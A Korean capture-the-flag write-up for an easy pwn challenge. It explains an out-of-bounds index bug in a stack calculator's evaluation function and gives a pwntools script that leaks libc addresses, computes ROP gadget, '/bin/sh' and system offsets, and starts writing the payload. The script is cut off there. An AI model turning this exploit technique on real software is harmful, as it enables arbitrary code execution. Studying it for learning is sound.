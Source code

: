 **출제자 책정 난이도**: easy

```C
void evaluation(calcs *calc, char oper)
{
    switch(oper) {
        case '+':
            calc->val[calc->idx - 2] += calc->val[calc->idx - 1];
            break;
        case '-':
            calc->val[calc->idx - 2] -= calc->val[calc->idx - 1];
            break;
        case '&':
            calc->val[calc->idx - 2] &= calc->val[calc->idx - 1];
            break;
        case '|':
            calc->val[calc->idx - 2] |= calc->val[calc->idx - 1];
            break;
        case '*':
            calc->val[calc->idx - 2] *= calc->val[calc->idx - 1];
            break;
        case '/':
            calc->val[calc->idx - 2] /= calc->val[calc->idx - 1];
            break;
        case '%':
            calc->val[calc->idx - 2] %= calc->val[calc->idx - 1];
            break;
    }
    --calc->idx;
}
```

이를 보면, 모든 연산에서 `calc->idx - 2`라는 index로 배열에 접근하는 걸 볼 수 있다. 코드를 보면 수식을 읽어온 이후 스택에 수를 추가할 때 index를 increase하기 때문에, 만약 수가 두 개 이상 추가되지 않은 상태로 evaluation이 진행되면, out of boundary 취약점으로 인해 `calc->idx`변수의 값이 바뀐다.

이를 이용해, main의 return address를 원하는 방식으로 모두 변조해줄 수 있다.

또, 우선적으로 결과를 출력해준다는 점을 통해 모든 주소들을 leak할 수 있다.

leak을 한 이후에는 원하는 대로 rop payload를 아무렇게나 retrun address에 적어주면 된다.

```python
from pwn import *

e = ELF('./prob')
# p = e.process(aslr=False)
p = remote('0', 51252)

sla = p.sendlineafter
sa = p.sendafter

go = lambda x: sla(b'> ', x)

go(b'+146')
p.recvuntil(b'+146=')
libc = int(p.recvline(), 16)
go(b'+147')
p.recvuntil(b'+147=')
libc += int(p.recvline(), 16) * 0x100000000 - 0x24083
prdi = libc + 0x00159a4f
binsh = libc + 0x1b45bd
system = libc + 0x52290

log.info('[GLIBC} %#x'%libc)

go(b'+14c&41414141&%x'%(system >> 32))
```